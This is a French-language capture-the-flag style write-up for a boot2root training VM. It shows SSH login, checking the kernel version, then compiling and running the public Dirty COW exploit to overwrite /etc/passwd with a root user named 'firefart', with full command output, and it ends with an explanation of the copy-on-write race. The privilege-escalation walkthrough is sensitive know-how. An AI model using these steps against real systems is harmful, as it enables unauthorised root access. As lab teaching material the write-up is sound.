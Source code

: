 # Writeup numéro 2:
## Étape 0 - Lancement de la VM:
![BootToRoot](assets/start_vm.png)

## Étape 1 - Connexion à la VM par ssh

Nous pouvons nous connecter à la VM avec les idéntifiants zaz trouvés avec la méthode décrite sur le [writeup1](writeup1.md)

## Étape 2 - Vérification de la version du kernel:

Une fois connectés en ssh, nous vérifions la version du kernel linux.

```SH
$> uname -r
3.2.0-91-generic-pae
```

Nous vérifions aussi la version de la distribution linux.

```sh
$> lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
Codename:	precise
```
## Étape 3 - Récherche et lancement de l'exploit

Si nous cherchons sur internet et sur [exploit-db](https://www.exploit-db.com/), nous pouvons voir qu'il existe une vulnérabilité publique pour la version du kernel 2.6.22 < 3.9.

Une fois le code de l'exploit [Dirty COW](https://www.exploit-db.com/exploits/40839) copié, on crée un fichier dirty.c sur le terminal connecté en ssh et on le compile.
```sh
$>gcc -pthread dirty.c -o dirty -lcrypt
```

Il nous demande ensuite un mot de passe, on peut mettre `1234`.

```sh
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
```

Après l'exécution du programme, le user root aura été remplacé par firefart (on peut changer ce nom par défaut en modifiant le code) et nous pourrons nous connecter avec le mot de passe choisi.

```
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
$> su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
```

`Youpi on est root !!`

## Un peu plus d'explications

Le script utilisé exploite une faille de sécurité dans le système Copy On Write qui a été présent sur le noyau Linux pendant très longtemps. Copy On Write ou `COW` permets gagner du temps quand on fait une copie. Quand on accède à l'élément copié, on a accès encore à l'élément original et la copie n'est pas faite que quand cet élément est modifié. S'il y a un problème, les données peuvent s'écrire dans un emplacement mémoire qui ne leurs correspond pas.

L'exploit qui permet écrire sur un fichier qui, à priori, est de lecture seul (par exemple `/ect/passwd`), suit ces pas :

* Fait un mapping privé du fichier à écrire (même si le contexte est de lecture, il peut être écrit car il est privé).

```c
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```

* En même temps qu'il écrit, il lance l'appel system [madvise()](http://man7.org/linux/man-pages/man2/madvise.2.html) pour indiquer au kernel qu'il peut libérer temporairement la mémoire utilisée par le fichier asigné. À chaque fois que l'on veut écrire il faut charger une nouvelle copie, ce qui prends du temps et, si le cycle Copy On Write n'a pas encore fini, on peut écrire sur l'original au lieu de la copie en mémoire.

Vous pouvez voir une explication plus detaillée sur le fonctionement de l'exploit [ici](https://www.youtube.com/watch?v=kEsshExn7aE).